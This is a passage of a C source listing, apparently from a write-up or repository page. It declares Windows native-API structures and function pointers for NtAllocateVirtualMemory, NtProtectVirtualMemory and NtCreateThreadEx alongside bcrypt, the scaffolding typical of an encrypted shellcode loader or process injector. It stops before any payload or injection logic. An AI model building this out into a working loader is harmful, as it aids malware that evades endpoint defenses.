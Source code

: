 ```C
#include <windows.h>
#include <stdio.h>
#include <Lmcons.h>
#include <stdlib.h>
#include <bcrypt.h>
#pragma comment(lib, "bcrypt.lib")

typedef struct _PS_ATTRIBUTE {
    ULONG Attribute;
    SIZE_T Size;
    union {
        ULONG Value;
        PVOID ValuePtr;
    } u1;
    PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST {
    SIZE_T TotalLength;
    PS_ATTRIBUTE Attributes[1];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG           Length;
    HANDLE          RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG           Attributes;
    PVOID           SecurityDescriptor;
    PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID {
    PVOID UniqueProcess;
    PVOID UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

// Define prototypes with proper calling convention
typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
    );

typedef NTSTATUS(NTAPI* pNtProtectVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    PSIZE_T NumberOfBytesToProtect,
    ULONG NewAccessProtection,
    PULONG OldAccessProtection
    );

typedef NTSTATUS(NTAPI* pNtCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
```

[^3]: https://ntdoc.m417z.com/ntcreatethreadex
[^5]: https://learn.microsoft.com/en-us/windows/win32/api/winreg/